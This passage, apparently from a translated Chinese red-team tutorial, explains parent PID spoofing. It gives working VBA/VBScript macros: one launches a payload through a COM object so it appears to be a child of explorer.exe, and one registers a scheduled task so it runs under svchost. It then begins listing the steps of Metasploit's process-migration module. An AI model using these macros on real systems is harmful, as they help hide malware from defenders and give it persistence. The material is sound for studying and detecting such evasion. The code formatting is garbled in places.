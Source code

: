 Sub Parent**()**

Set obj **=** GetObject **(** "new:C08AFD90-F2A1-11D1-8455-00A0C91F3880" **)** obj **.** Document **.** Application **.** ShellExecute "pentestlab.exe" **,** Null **,** "C:\Temp\",Null,0

End Sub

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps406D.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132641-d74da1e8-0ddd-1.png)
使用此方法执行恶意文件的结果是，父进程将是"explorer.exe"，即使程序的执行在office应用内部进行：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps407D.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132700-e2720f82-0ddd-1.png)
下图为通过执行任意有效负载的COM对象后返回的一个Meterpreter会话：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps407E.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132718-ed1226b6-0ddd-1.png)
计划任务经常被用作一种持久性方法，因为它允许红队在特定的日期或时间执行他们的事务，它也可以用于父PID欺骗，因为调度任务可以直接从VBScript创建，下面的代码注册了一个新的调度任务，该任务将在30秒后触发有效负载的执行

Sub Parent **()** Set service **=** CreateObject **(** "Schedule.Service" **)** Call service **.** ConnectDim td**:** Set td **=** service **.** NewTask **(**  **0**  **)** td **.** RegistrationInfo **.** Author **=** "Pentest Laboratories"td **.** settings **.** StartWhenAvailable **=** Truetd **.** settings **.** Hidden **=** FalseDim triggers**:** Set triggers **=** td **.** triggersDim trigger**:** Set trigger **=** triggers **.** Create **(**  **1**  **)** Dim startTime**:** ts **=** DateAdd **(** "s"**,**  **30** **,** Now **)** startTime **=** Year **(** ts**)** **&** "-" **&** Right **(** Month **(** ts**),**  **2** **)** **&** "-" **&** Right **(** Day **(** ts**),**  **2** **)** **&** "T" **&** Right **(** Hour **(** ts**),**  **2** **)** **&** ":" **&** Right **(** Minute **(** ts**),**  **2** **)** **&** ":" **&** Right **(** Second **(** ts**),**  **2**  **)** trigger **.** StartBoundary **=** startTimetrigger **.** ID **=** "TimeTriggerId"Dim Action**:** Set Action **=** td **.** Actions **.** Create **(**  **0**  **)** Action **.** Path **=** "C:\Users\pentestlab.exe"Call service **.** GetFolder **(** "\").RegisterTaskDefinition("PentestLab", td, 6, , , 3)End Sub

[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps407F.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132818-113c8342-0dde-1.png)
新的进程将不再以微软产品的流程为父进程，而是以"svchost.exe"作为更隐蔽的方法：
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4090.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132858-28e92e28-0dde-1.png)
查看进程属性可以看到父进程是"svhcost.exe"
[![](file:///C:\Users\ww\AppData\Local\Temp\ksohtml\wps4091.tmp.jpg)](https://xzfile.aliyuncs.com/media/upload/picture/20201014132925-39253caa-0dde-1.png)

## **Metasploit**

Metasploit框架包含一个后渗透测试模块，可用于将现有的Meterpreter会话迁移到系统上的另一个进程，该模块将遵循与本文中描述的其他工具相同的功能，以便将现有的shell代码重写到另一个进程的地址空间中，具体而言该模块将遵循以下流程:

· 获取目标进程的PID

· 检查目标进程的体系结构(32位或64位)

· 检查meterpreter会话是否具有SeDebugPrivilege

· 从现有进程中检索负载

· 调用OpenProcess() API以获得对目标进程虚拟内存的访问

· 调用VirtualAllocEx() API以在目标进程中分配rwx内存
